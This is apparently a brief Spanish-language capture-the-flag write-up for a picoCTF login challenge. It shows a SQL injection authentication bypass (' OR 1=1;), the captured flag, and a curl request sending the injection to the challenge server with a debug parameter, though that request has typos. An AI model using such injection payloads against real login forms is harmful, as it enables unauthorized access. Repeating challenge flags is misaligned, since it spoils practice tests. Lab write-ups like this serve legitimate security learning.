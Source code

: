 Se le quita el hidden al cuadro oculto
Se cambia la variable por 1
Se inyecta en la consulta

	Username: ' OR 1=1;

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}

---------------------------------
curl https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&pasword=' on 1=1;&debug=1" 